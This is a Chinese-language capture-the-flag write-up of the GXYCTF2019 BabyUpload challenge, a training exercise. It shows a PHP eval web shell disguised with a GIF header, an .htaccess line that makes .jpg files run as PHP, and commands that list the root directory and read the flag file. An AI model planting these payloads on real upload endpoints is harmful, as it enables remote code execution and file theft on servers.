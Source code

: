 # [GXYCTF2019]BabyUpload
![](<./img/Pasted image 20221107195420.png>)

先随便传个png上去试试

![](<./img/Pasted image 20221107200358.png>)

经过一番尝试发现接受jpeg类型

![](<./img/Pasted image 20221107200345.png>)

改为html风格发现上传成功

![](<./img/Pasted image 20221107200720.png>)
```html
GIF98a
<script language='php'>eval($_GET['cmd']);</script>
```
尝试上传.htaccess，将对jpg文件的访问方式修改

![](<./img/Pasted image 20221107201553.png>)
```
AddType application/x-httpd-php .jpg
```
访问
```php
/upload/xxx/tmp.jpg?cmd=phpinfo();
```
![](<./img/Pasted image 20221107201905.png>)

成功上传
由于`system`被ban，通过`scandir`来查看目录
```php
/?cmd=var_dump(scandir('/'));
```
![](<./img/Pasted image 20221107202258.png>)

最后用`file_get_contents`读取
```php
/?cmd=var_dump(file_get_contents('/flag'));
```
![](<./img/Pasted image 20221107202336.png>)

学到的知识用上了，开心QwQ

#Web #文件上传 #RCE #PHP #bypass 